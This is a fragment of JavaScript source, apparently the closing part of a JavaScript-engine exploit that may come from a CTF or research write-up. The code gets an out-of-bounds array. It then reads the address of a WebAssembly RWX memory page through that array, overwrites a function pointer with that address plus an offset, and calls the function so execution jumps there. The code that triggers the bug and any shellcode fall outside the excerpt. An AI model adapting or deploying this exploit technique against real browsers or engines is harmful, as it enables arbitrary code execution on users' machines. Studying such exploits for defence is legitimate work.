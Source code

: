 ```js
            return b;
        }
    }   

    let OOB;
    while(true){
        OOB = bob();
        if(OOB !== false){
            break;
        }
    }

    gc();

    if(OOB.length == 2){
        print("OOB Array Creation - Failed.")

    }
    print("Gained OOB Array. Array Length: " + hex(OOB.length));

    // The stack is misaligned here. pain!
    let rwx = ftoi(OOB[0x3645e]) >> 32n;
    rwx += (ftoi(OOB[0x3645f]) % 0x100000000n) << 32n;
    print("RWX Address: " + hex(rwx));
    
    // trigger the first wasm function.
    f1();
    let func_rwx_offset = rwx + 0x81an;
    OOB[0x36478] = itof(func_rwx_offset);

    f2();
}

exp();
```